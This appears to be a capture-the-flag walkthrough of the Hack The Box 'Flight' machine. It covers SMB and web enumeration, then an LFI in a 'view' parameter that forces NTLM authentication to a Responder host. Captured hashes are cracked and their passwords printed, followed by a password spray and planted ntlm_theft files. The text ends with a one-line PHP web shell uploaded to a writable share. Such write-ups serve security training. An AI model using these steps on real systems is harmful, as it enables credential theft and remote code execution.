




# Flight - Hard

Target IP: **10.129.104.104**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.228.120 -v```

Output shows a lot of ports open.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: g0 Aviation
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-13 01:50:52Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  msrpc         Microsoft Windows RPC
64351/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows
```

We can't enumerate SMB without credentials.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-4gcfqtelsa]─[~]
└──╼ [★]$ smbmap -H 10.129.104.104

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                      
[!] Access denied on 10.129.104.104, no fun for you...                                                                   
[*] Closed 1 connections                                                                                                     
```

No guest credentials either.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-4gcfqtelsa]─[~]
└──╼ [★]$ smbmap -H 10.129.104.104 -u 'guest' -p ''

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                      
[!] Access denied on 10.129.104.104, no fun for you...                                                                       
[*] Closed 1 connections                                                                                                     
```

Let's check the website. This seems to just be a static website.


Let's enumerate further.

We can some interesting results, particularly ```phpmyadmin``` and ```webalizer```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-4gcfqtelsa]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.104.104/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.104.104/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 9ms]
                        [Status: 200, Size: 7069, Words: 1546, Lines: 155, Duration: 23ms]
Images                  [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 6ms]
css                     [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 19ms]
js                      [Status: 301, Size: 337, Words: 22, Lines: 10, Duration: 7ms]
licenses                [Status: 403, Size: 422, Words: 37, Lines: 12, Duration: 14ms]
IMAGES                  [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 22ms]
CSS                     [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 8ms]
JS                      [Status: 301, Size: 337, Words: 22, Lines: 10, Duration: 8ms]
phpmyadmin              [Status: 403, Size: 422, Words: 37, Lines: 12, Duration: 16ms]
webalizer               [Status: 403, Size: 422, Words: 37, Lines: 12, Duration: 20ms]
                        [Status: 200, Size: 7069, Words: 1546, Lines: 155, Duration: 15ms]
server-status           [Status: 403, Size: 422, Words: 37, Lines: 12, Duration: 8ms]
:: Progress: [220547/220547] :: Job [1/1] :: 1290 req/sec :: Duration: [0:01:37] :: Errors: 0 ::
```

However, we are restricted from viewing them, and the other directories are not useful to us.




Let's enumerate for subdomains, adding ```flight.htb``` to our hosts file.

We do get a single hit, ```school```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-4gcfqtelsa]─[~]
└──╼ [★]$ ffuf -u http://flight.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.flight.htb" -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://flight.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.flight.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

school                  [Status: 200, Size: 3996, Words: 1045, Lines: 91, Duration: 7ms]
:: Progress: [19964/19964] :: Job [1/1] :: 479 req/sec :: Duration: [0:00:30] :: Errors: 0 ::
```

Let's add this to our hosts file and navigate.

The website seems to be pulling html files from the server with the ```view``` parameter to display the webpage.


This is an immediate candidate for LFI. Let's try to grab the hosts file on Windows.

However, we get an alert message saying our activity has been detected.



It's likely that there is some filtering going on with the value of the ```view``` parameter. After some testing, I figured out that the backslash character was the problematic character. Typing in ```C:``` as the value does not display the alert.


We can try replacing the backslashes with forward slashes. This works.



Since LFI works, maybe we can try RFI. A way we can proceed from here is with responder, and passing in the location of some nonexistent file on our SMB server. Indeed, after passing in ```//10.10.15.194/hi```, we capture a hash for ```svc_apache```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-4gcfqtelsa]─[~]
└──╼ [★]$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

[SMB] NTLMv2-SSP Client   : 10.129.104.104
[SMB] NTLMv2-SSP Username : flight\svc_apache
[SMB] NTLMv2-SSP Hash     : svc_apache::flight:760885e80748bd06:CB0B1E1F63A7F2A124ED74B3F4CB7AD4:010100000000000080B1A0CFC676DD0146738DC063E5F0C100000000020008004C004F005200350001001E00570049004E002D003500310056004F004A0058005500330037004300550004003400570049004E002D003500310056004F004A005800550033003700430055002E004C004F00520035002E004C004F00430041004C00030014004C004F00520035002E004C004F00430041004C00050014004C004F00520035002E004C004F00430041004C000700080080B1A0CFC676DD0106000400020000000800300030000000000000000000000000300000F85364995C29CAAF878C30BB6BABCE8BE76B8BCD7E2F75982DD0CD2EB28B2D1D0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310035002E003100390034000000000000000000
```

Hashcat is able to crack it for us.

```
SVC_APACHE::flight:760885e80748bd06:cb0b1e1f63a7f2a124ed74b3f4cb7ad4:010100000000000080b1a0cfc676dd0146738dc063e5f0c100000000020008004c004f005200350001001e00570049004e002d003500310056004f004a0058005500330037004300550004003400570049004e002d003500310056004f004a005800550033003700430055002e004c004f00520035002e004c004f00430041004c00030014004c004f00520035002e004c004f00430041004c00050014004c004f00520035002e004c004f00430041004c000700080080b1a0cfc676dd0106000400020000000800300030000000000000000000000000300000f85364995c29caaf878c30bb6babce8be76b8bcd7e2f75982dd0cd2eb28b2d1d0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310035002e003100390034000000000000000000:S@Ss!K@*t13
```

These credentials work for SMB.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-4gcfqtelsa]─[~]
└──╼ [★]$ netexec smb 10.129.104.104 -u svc_apache -p 'S@Ss!K@*t13'
SMB         10.129.104.104  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.104.104  445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
```

We can enumerate the shares.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-4gcfqtelsa]─[~]
└──╼ [★]$ netexec smb 10.129.104.104 -u svc_apache -p 'S@Ss!K@*t13' --shares
SMB         10.129.104.104  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.104.104  445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.129.104.104  445    G0               [*] Enumerated shares
SMB         10.129.104.104  445    G0               Share           Permissions     Remark
SMB         10.129.104.104  445    G0               -----           -----------     ------
SMB         10.129.104.104  445    G0               ADMIN$                          Remote Admin
SMB         10.129.104.104  445    G0               C$                              Default share
SMB         10.129.104.104  445    G0               IPC$            READ            Remote IPC
SMB         10.129.104.104  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.104.104  445    G0               Shared          READ            
SMB         10.129.104.104  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.104.104  445    G0               Users           READ            
SMB         10.129.104.104  445    G0               Web             READ            
```

Let's connect to the shares.

The ```Users``` share seems like a copy of the ```users``` directory on the remote machine.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-4gcfqtelsa]─[~]
└──╼ [★]$ smbclient //10.129.104.104/Users -U 'flight/svc_apache%S@Ss!K@*t13'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Thu Sep 22 16:16:56 2022
  ..                                 DR        0  Thu Sep 22 16:16:56 2022
  .NET v4.5                           D        0  Thu Sep 22 15:28:03 2022
  .NET v4.5 Classic                   D        0  Thu Sep 22 15:28:02 2022
  Administrator                       D        0  Mon Oct 31 14:34:00 2022
  All Users                       DHSrn        0  Sat Sep 15 03:28:48 2018
  C.Bum                               D        0  Thu Sep 22 16:08:23 2022
  Default                           DHR        0  Tue Jul 20 15:20:24 2021
  Default User                    DHSrn        0  Sat Sep 15 03:28:48 2018
  desktop.ini                       AHS      174  Sat Sep 15 03:16:48 2018
  Public                             DR        0  Tue Jul 20 15:23:25 2021
  svc_apache                          D        0  Fri Oct 21 14:50:21 2022

		5056511 blocks of size 4096. 1171166 blocks available
```

We are restricted from looking side any other directory except for ```svc_apache```, and it doesn't have anything useful either. However we should note that ```C.Bum``` is another user on the domain.

The ```Web``` share has the files for the websites we saw before, which isn't very useful as of now.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-4gcfqtelsa]─[~]
└──╼ [★]$ smbclient //10.129.104.104/Web -U 'flight/svc_apache%S@Ss!K@*t13'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Nov 18 02:37:01 2026
  ..                                  D        0  Wed Nov 18 02:37:01 2026
  flight.htb                          D        0  Wed Nov 18 02:37:00 2026
  school.flight.htb                   D        0  Wed Nov 18 02:37:01 2026

		5056511 blocks of size 4096. 1170510 blocks available
```

We can try enumerating usernames with ```lookupsid.py```. It brings some results back which we can put into a username list.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-4gcfqtelsa]─[~]
└──╼ [★]$ lookupsid.py flight/svc_apache:'S@Ss!K@*t13'@10.129.104.104
Impacket v0.14.0.dev0+20260407.172353.7fc084ad - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at 10.129.104.104
[*] StringBinding ncacn_np:10.129.104.104[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4078382237-1492182817-2568127209
498: flight\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: flight\Administrator (SidTypeUser)
501: flight\Guest (SidTypeUser)
502: flight\krbtgt (SidTypeUser)
512: flight\Domain Admins (SidTypeGroup)
513: flight\Domain Users (SidTypeGroup)
514: flight\Domain Guests (SidTypeGroup)
515: flight\Domain Computers (SidTypeGroup)
516: flight\Domain Controllers (SidTypeGroup)
517: flight\Cert Publishers (SidTypeAlias)
518: flight\Schema Admins (SidTypeGroup)
519: flight\Enterprise Admins (SidTypeGroup)
520: flight\Group Policy Creator Owners (SidTypeGroup)
521: flight\Read-only Domain Controllers (SidTypeGroup)
522: flight\Cloneable Domain Controllers (SidTypeGroup)
525: flight\Protected Users (SidTypeGroup)
526: flight\Key Admins (SidTypeGroup)
527: flight\Enterprise Key Admins (SidTypeGroup)
553: flight\RAS and IAS Servers (SidTypeAlias)
571: flight\Allowed RODC Password Replication Group (SidTypeAlias)
572: flight\Denied RODC Password Replication Group (SidTypeAlias)
1000: flight\Access-Denied Assistance Users (SidTypeAlias)
1001: flight\G0$ (SidTypeUser)
1102: flight\DnsAdmins (SidTypeAlias)
1103: flight\DnsUpdateProxy (SidTypeGroup)
1602: flight\S.Moon (SidTypeUser)
1603: flight\R.Cold (SidTypeUser)
1604: flight\G.Lors (SidTypeUser)
1605: flight\L.Kein (SidTypeUser)
1606: flight\M.Gold (SidTypeUser)
1607: flight\C.Bum (SidTypeUser)
1608: flight\W.Walker (SidTypeUser)
1609: flight\I.Francis (SidTypeUser)
1610: flight\D.Truff (SidTypeUser)
1611: flight\V.Stevens (SidTypeUser)
1612: flight\svc_apache (SidTypeUser)
1613: flight\O.Possum (SidTypeUser)
1614: flight\WebDevs (SidTypeGroup)
```

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-4gcfqtelsa]─[~]
└──╼ [★]$ cat users
Administrator
Guest
S.Moon
R.Cold
G.Lors
L.Kein
M.Gold
C.Bum
W.Walker
I.Francis
D.Truff
V.Stevens
svc_apache
O.Possum
```

Let's perform a password spray to see if any accounts use the same password as ```svc_apache```.

We find that ```S.Moon``` indeed does.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-4gcfqtelsa]─[~]
└──╼ [★]$ nxc smb 10.129.104.104 -u users -p 'S@Ss!K@*t13' --no-bruteforce --continue-on-success
SMB         10.129.104.104  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.104.104  445    G0               [-] flight.htb\Administrator:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.104.104  445    G0               [-] flight.htb\Guest:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.104.104  445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
SMB         10.129.104.104  445    G0               [-] flight.htb\R.Cold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.104.104  445    G0               [-] flight.htb\G.Lors:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.104.104  445    G0               [-] flight.htb\L.Kein:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.104.104  445    G0               [-] flight.htb\M.Gold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.104.104  445    G0               [-] flight.htb\C.Bum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.104.104  445    G0               [-] flight.htb\W.Walker:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.104.104  445    G0               [-] flight.htb\I.Francis:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.104.104  445    G0               [-] flight.htb\D.Truff:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.104.104  445    G0               [-] flight.htb\V.Stevens:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.104.104  445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.129.104.104  445    G0               [-] flight.htb\O.Possum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
```

```S.Moon``` has RW access on ```Shared```. The name implies that this would contain files that are shared or accessed by many different users.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-4gcfqtelsa]─[~]
└──╼ [★]$ netexec smb 10.129.104.104 -u 'S.Moon' -p 'S@Ss!K@*t13' --shares
SMB         10.129.104.104  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.104.104  445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
SMB         10.129.104.104  445    G0               [*] Enumerated shares
SMB         10.129.104.104  445    G0               Share           Permissions     Remark
SMB         10.129.104.104  445    G0               -----           -----------     ------
SMB         10.129.104.104  445    G0               ADMIN$                          Remote Admin
SMB         10.129.104.104  445    G0               C$                              Default share
SMB         10.129.104.104  445    G0               IPC$            READ            Remote IPC
SMB         10.129.104.104  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.104.104  445    G0               Shared          READ,WRITE      
SMB         10.129.104.104  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.104.104  445    G0               Users           READ            
SMB         10.129.104.104  445    G0               Web             READ            
```

A method we can try is to place NTLM theft files with [ntlm_theft](https://github.com/Greenwolf/ntlm_theft).

Let's generate the files.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dlszgby3kh]─[~/ntlm_theft]
└──╼ [★]$ python ntlm_theft.py -g all -s 10.10.15.194 -f hi
Created: hi/hi.scf (BROWSE TO FOLDER)
Created: hi/hi-(url).url (BROWSE TO FOLDER)
Created: hi/hi-(icon).url (BROWSE TO FOLDER)
Created: hi/hi.lnk (BROWSE TO FOLDER)
Created: hi/hi.rtf (OPEN)
Created: hi/hi-(stylesheet).xml (OPEN)
Created: hi/hi-(fulldocx).xml (OPEN)
Created: hi/hi.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: hi/hi-(handler).htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: hi/hi-(includepicture).docx (OPEN)
Created: hi/hi-(remotetemplate).docx (OPEN)
Created: hi/hi-(frameset).docx (OPEN)
Created: hi/hi-(externalcell).xlsx (OPEN)
Created: hi/hi.wax (OPEN)
Created: hi/hi.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: hi/hi.asx (OPEN)
Created: hi/hi.jnlp (OPEN)
Created: hi/hi.application (DOWNLOAD AND OPEN)
Created: hi/hi.pdf (OPEN AND ALLOW)
Created: hi/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: hi/hi.library-ms (BROWSE TO FOLDER)
Created: hi/Autorun.inf (BROWSE TO FOLDER)
Created: hi/desktop.ini (BROWSE TO FOLDER)
Created: hi/hi.theme (THEME TO INSTALL)
Created: hi/hi.bat (BROWSE TO FOLDER)
Generation Complete.
```

We can now connect to the share and place all the files in it, although some are not allowed.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dlszgby3kh]─[~/ntlm_theft/hi]
└──╼ [★]$ smbclient //10.129.228.120/shared -U S.Moon 'S@Ss!K@*t13'
Try "help" to get a list of possible commands.
smb: \> prompt false
smb: \> mput *
NT_STATUS_ACCESS_DENIED opening remote file \hi.rtf
NT_STATUS_ACCESS_DENIED opening remote file \hi-(externalcell).xlsx
NT_STATUS_ACCESS_DENIED opening remote file \zoom-attack-instructions.txt
NT_STATUS_ACCESS_DENIED opening remote file \hi-(includepicture).docx
NT_STATUS_ACCESS_DENIED opening remote file \hi-(url).url
putting file hi.library-ms as \hi.library-ms (56.7 kb/s) (average 56.7 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \hi.lnk
NT_STATUS_ACCESS_DENIED opening remote file \hi.wax
putting file hi.odt as \hi.odt (301.9 kb/s) (average 179.3 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \hi.htm
NT_STATUS_ACCESS_DENIED opening remote file \hi-(remotetemplate).docx
NT_STATUS_ACCESS_DENIED opening remote file \hi.scf
putting file hi.theme as \hi.theme (78.2 kb/s) (average 145.6 kb/s)
putting file hi-(fulldocx).xml as \hi-(fulldocx).xml (1969.0 kb/s) (average 808.7 kb/s)
putting file hi-(stylesheet).xml as \hi-(stylesheet).xml (7.6 kb/s) (average 668.5 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \hi-(handler).htm
NT_STATUS_ACCESS_DENIED opening remote file \hi-(icon).url
putting file desktop.ini as \desktop.ini (2.2 kb/s) (average 569.3 kb/s)
putting file hi.jnlp as \hi.jnlp (9.0 kb/s) (average 496.6 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \Autorun.inf
NT_STATUS_ACCESS_DENIED opening remote file \hi.asx
NT_STATUS_ACCESS_DENIED opening remote file \hi.pdf
NT_STATUS_ACCESS_DENIED opening remote file \hi.bat
NT_STATUS_ACCESS_DENIED opening remote file \hi.m3u
NT_STATUS_ACCESS_DENIED opening remote file \hi-(frameset).docx
putting file hi.application as \hi.application (68.0 kb/s) (average 445.4 kb/s)
```

After a minute, we capture a hash on our Responder instance, this time for ```C.bum```.

```
[SMB] NTLMv2-SSP Client   : 10.129.228.120
[SMB] NTLMv2-SSP Username : flight.htb\c.bum
[SMB] NTLMv2-SSP Hash     : c.bum::flight.htb:5c917adda8133fca:8433B0051651CC64EE7AF221B6704788:010100000000000080F8CE9C4178DD0160708EB4D1FA57590000000002000800540046005900330001001E00570049004E002D0049003200390031005A0055004700320038003800410004003400570049004E002D0049003200390031005A005500470032003800380041002E0054004600590033002E004C004F00430041004C000300140054004600590033002E004C004F00430041004C000500140054004600590033002E004C004F00430041004C000700080080F8CE9C4178DD0106000400020000000800300030000000000000000000000000300000F592271169F080742BAF0AD42B3ADC11DCB4AB045BD8CDC7B5E4A9C78627798A0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310035002E003100390034000000000000000000
```

We can crack the hash with hashcat.

```
C.BUM::flight.htb:5c917adda8133fca:8433b0051651cc64ee7af221b6704788:010100000000000080f8ce9c4178dd0160708eb4d1fa57590000000002000800540046005900330001001e00570049004e002d0049003200390031005a0055004700320038003800410004003400570049004e002d0049003200390031005a005500470032003800380041002e0054004600590033002e004c004f00430041004c000300140054004600590033002e004c004f00430041004c000500140054004600590033002e004c004f00430041004c000700080080f8ce9c4178dd0106000400020000000800300030000000000000000000000000300000f592271169f080742baf0ad42b3adc11dcb4ab045bd8cdc7b5e4a9c78627798a0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310035002e003100390034000000000000000000:Tikkycoll_431012284
```

Windows Remote Management still doesn't work with ```C.bum```.

Checking SMB access again, ```C.bum``` has write access to the Web share, which contains files for the publicly facing websites.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dlszgby3kh]─[~]
└──╼ [★]$ smbmap -H 10.129.228.120 -u 'C.bum' -p 'Tikkycoll_431012284'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.129.228.120:445	Name: 10.129.228.120      	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	Shared                                            	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share 
	Users                                             	READ ONLY	
	Web                                               	READ, WRITE	
```

We can abuse this access by placing a php webshell inside of it.

First let's create a simple php webshell: ```<?php system($_REQUEST['cmd']); ?>```

```
smb: \school.flight.htb\images\> put shell.php
